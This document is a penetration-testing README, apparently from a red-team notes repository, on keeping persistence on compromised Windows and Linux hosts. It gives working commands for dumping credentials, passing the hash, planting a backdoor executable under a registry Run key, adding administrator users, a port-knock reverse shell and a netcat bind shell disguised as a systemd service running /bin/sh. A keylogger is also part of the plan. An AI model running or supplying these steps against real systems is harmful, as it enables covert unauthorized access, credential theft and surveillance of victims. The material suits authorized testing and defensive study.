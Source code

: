 # Methods of Persistence
1) [Passwords](#Passwords)
   1) [Pass the Hash](#Pass-the-Hash)
   2) Crack the Hash
2) [Backdoor](#Backdoor)
3) [New User](#New-User)
4) [DLL Preloading / DLL Hijacking](#DLL-Preloading)

# Passwords
1) [Get Windows passwords with mimikatz](../../Tools/Credentials_Cryptography/mimikatz/README.md)
2) [Get Windows passwords and hashes with Meterpreter](../../Tools/Metasploit/README.md#Get-Windows-Credentials).
3) [Get SMB Hashes with Meterpreter](../../Tools/Metasploit/README.md#Capture-SMB-Hashes).
4) [Use Windows Credentials Editor](../../Tools/Credentials_Cryptography/WCE/README.md)

### Pass the Hash
1) [Use Meterpreter SMB module and specify SMBPass as the capture hash](../../Tools/Metasploit/README.md#Establish-Reverse-Shell-with-SMB).
2) RDP with password or pass the hash.
   1) Check if RDP is enable by attempting a connection.  Do this before enabling RDP to know to disable RDP, when done with the engagement.
   2) Enable RDP with [Meterpreter](../../Tools/Metasploit/README.md#Enable-RDP) or [Windows](../../Tools/Shells/Windows/CMD/README.md#Start-Service).
   3) [Add user to group "Remote Desktop Users"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).
   4) [Pass the Hash over RDP](../../Tools/RDP/freerdp/README.md#Pass-The-Hash).

    [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://blog.harmj0y.net/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

# Backdoor
##### Steps
1) Upload backdoor to victim.
2) Execute at prefixed times.
3) Automatically run on boot.

##### Methods
1) [Meterpreter](../../Tools/Metasploit/README.md#Persistence)
2) Manually from Meterpreter
   1) Upload payload created with msfvenom, Veil, BDF, etc. ```meterpreter > upload /root/backdoor.exe C:\\Windows\```
   2) Edit Windows Registry ```meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -d "C:\Windows\backdoor.exe" -v MyBackdoorName```

# New User
1) [Add user](../../Tools/Shells/Windows/CMD/README.md#Add-User).
2) [Add user to group "Administrators"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).

# [DLL Preloading](../DLL_Preloading/README.md)


# Xinetd UDP Portknock Backdoor
##### [Step 1 - On Target, create xinetd service](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)
[Local File](../../Tools/Shells/Persistence/xinetd/xinetd_server.sh)

It requires that netcat is on the target, in the /bin directory.  It copies netcat to file /bin/services.udp.
##### Step 2 - Start netcat listener on Attack machine
```bash
nc -lnvp <Port #>
```
##### Step 3 - Send a single UDP packet to target, "knocking," and causing the target to establish a reverse shell.
```bash
hping3 -2 -c 1 <Target IP Address> -p 65534
```

### Portknocking References
[Port knocking](https://en.wikipedia.org/wiki/Port_knocking)

# Systemd Netcat Bind Shell
##### Step 1 - On Target, copy netcat to a new file, in /lib/systemd directory.
```bash
cp /bin/nc /lib/systemd/systemd-service
```
##### Step 2 - On Target, create file /lib/systemd/system/systemd-service with following contents
[systemd-service](../../Tools/Shells/Persistence/Systemd/systemd-service)
```bash
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```
##### Step 3 - On Target, enable & start service
```bash
systemctl enable systemd.service
systemctl start systemd.service
```
##### Step 4 - Confirm that port is listening on the target
```bash
netstat -auntp | grep 56825
```
##### [Step 5 - From Attack machine, establish shell (Note Port # 56825)](../../Tools/Shells/Bind/README.md#Netcat-Bind-Shell)

# Meterpreter - Windows
1) [Check process ID](../../Tools/Metasploit/README.md#Get-Processes).
2) Migrate to SvcHost.exe [by Process ID](../../Tools/Metasploit/README.md#Migrate-to-Another-Process-ID) or [by Process name](../../Tools/Metasploit/README.md#Migrate-to-Another-Process-Name).
3) [Retrieve password hashes from victim](../../Tools/Metasploit/README.md#Get-Windows-Credentials).
4) [Pass-the-Hash with psexec](../../Tools/Metasploit/README.md#Establish-Reverse-Shell-with-SMB).
5) [If psexec fails due to STATUS_ACCESS_DENIED, update the registry on the target](../../Tools/Metasploit/README.md#Update-Registry-to-Allow-SMB-Access).
6) If user changes password, we will lose access.
   1) Install keylogger.
   2) Add new user to machine. 
      1) Check if RDP is enable by attempting a connection.  Do this before enabling RDP to know to disable RDP, when done with the engagement.
      2) Enable RDP with [Meterpreter](../../Tools/Metasploit/README.md#Enable-RDP-and-Add-User). 
7) [Create backdoor](../../Tools/Metasploit/README.md#Persistence). 